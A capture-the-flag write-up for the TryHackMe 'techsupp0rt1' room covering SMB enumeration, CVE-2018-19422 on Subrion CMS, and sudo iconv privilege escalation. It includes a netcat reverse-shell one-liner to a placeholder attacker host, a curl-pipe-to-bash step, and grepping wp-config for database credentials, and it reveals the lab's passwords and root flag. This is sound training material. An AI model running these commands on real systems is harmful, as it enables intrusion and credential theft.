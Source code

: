 # Room: [techsupp0rt1](https://tryhackme.com/room/techsupp0rt1)
(*Hack into the scammer's under-development website to foil their plans.*)


## Basic Enum

Nmap / rustcan

```bash
IP=VICTIM
rustscan -a $IP | tee rustscan.log
[...]
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 63
80/tcp  open  http         syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63
```

- Samba looks intersting :eye:

```bash
smbclient -N -L \\\\$IP\\   

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	websvr          Disk      
	IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

- And sure enough this share websvr is intersting so let's grab the enter.txt file:

```bash
smbclient -N \\\\10.10.213.5\\websvr

smb: \> ls
  .                                   D        0  Sat May 29 09:17:38 2021
  ..                                  D        0  Sat May 29 09:03:47 2021
  enter.txt                           N      273  Sat May 29 09:17:38 2021

                8460484 blocks of size 1024. 5627800 blocks available
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)

```

It shows some juicy info:

```bash
cat enter.txt      
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->

```
- The "magical formula" was easy to find thanks to the awesome tool https://gchq.github.io/CyberChef/ !
- So what am I looking for now ? :D probably a way to escalte on Subrion CMS security breach.
- It took me a while to figure out where the panel exactly was, as I was blindly following my gobuster/feroxbuster/dirb whatever results 

<details>
  <summary>Click to reveal the admin pass!</summary>

  ```bash
  Scam2021
  ```
</details>

However the following IP `10.0.2.15` trick me while I was looking for the redirect though:

```bash
curl -IXGET http://techsupp0rt1/subrion -L
HTTP/1.1 301 Moved Permanently
Date: Wed, 20 Apr 2022 20:52:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://techsupp0rt1/subrion/
Content-Length: 314
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 302 Found
Date: Wed, 20 Apr 2022 20:52:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: INTELLI_06c8042c3d=s1veerpuqnscvc79rk8nvpatea; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: INTELLI_06c8042c3d=s1veerpuqnscvc79rk8nvpatea; expires=Wed, 20-Apr-2022 21:22:52 GMT; Max-Age=1800; path=/
Location: http://10.0.2.15/subrion/subrion/
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```

And fair enough I found the path I was looking for:

```bash
curl -IXGET http://techsupp0rt1/subrion/panel -L
HTTP/1.1 301 Moved Permanently
Date: Wed, 20 Apr 2022 20:54:54 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://techsupp0rt1/subrion/panel/
Content-Length: 320
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Wed, 20 Apr 2022 20:54:54 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: INTELLI_06c8042c3d=iuhncvbabhnafckhvefbasmo6d; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: INTELLI_06c8042c3d=iuhncvbabhnafckhvefbasmo6d; expires=Wed, 20-Apr-2022 21:24:54 GMT; Max-Age=1800; path=/
X-Robots-Tag: noindex
Vary: Accept-Encoding
Content-Length: 6203
Content-Type: text/html;charset=UTF-8
```
## Exploiting CVE-2018-19422

So I was able to have fun thanks to https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE 

```bash
$ pwd
/var/www/html/subrion/uploads

$ ls -larth /home
total 12K
drwxr-xr-x 23 root     root     4.0K May 28  2021 ..
drwxr-xr-x  3 root     root     4.0K May 28  2021 .
drwxr-xr-x  4 scamsite scamsite 4.0K May 29  2021 scamsite

```

## Stabilizing our shell

I noticed the **scamsite** user home however as I crashed the shell while trying to stabilize it I decided to upload and running it from the victim machine like so :

on attacker machine:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attacker_ip 4242 >/tmp/f" > lol.sh
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
rlwrap nc -nlvp 4242 
```

on victim machine:
```bash
curl attacker_ip:8000/lol.sh | bash
```

And after stabilizing it I was able to start investagting in a more "convenient" way:

```bash
/var/www/html/wordpress$ grep -iE 'user|pass' wp-con*
wp-config.php:/** MySQL database username */
wp-config.php:define( 'DB_USER', 'support' );
wp-config.php:/** MySQL database password */
wp-config.php:define( 'DB_PASSWORD', 'Im{REDACTED}3!' );
wp-config.php: * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.

```
> The support user was also the one we discovered while quiclky brownsing the wordpress site.

<details>
  <summary>Click to reveal the DB password!</summary>
  
  ```bash
  ImAScammerLOL!123!
  ```
</details>

## Privesc

I used this password with the scamsite username and...it works ! (FYI:It also worked with the **support** user to connect trhough wordpress admin panel)
So I did the few following steps to get the root flag:

```bash
ssh scamsite@$IP
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
scamsite@TechSupport:~$ man iconv
scamsite@TechSupport:~$ ls /root/root.txt
ls: cannot access '/root/root.txt': Permission denied
scamsite@TechSupport:~$ LFILE=/root/root.txt
scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
851b{REDACTED}790b  -

```

Thanks to [gtfobins break out from restricted environments](https://gtfobins.github.io/gtfobins/iconv/#sudo) :point_left:

<details>
  <summary>Click to reveal the root flag!</summary>
  
  ```bash
  851b8233a8c09400ec30651bd1529bf1ed02790b 
  ```
</details>
 
Houra :partying_face:



### Useful Links:

[rustscan](https://github.com/RustScan/RustScan)

[revshells](https://www.revshells.com/)

[gtfobins](https://gtfobins.github.io/)

[h3v0x/CVE-2018-19422-SubrionCMS-RCE](https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE)
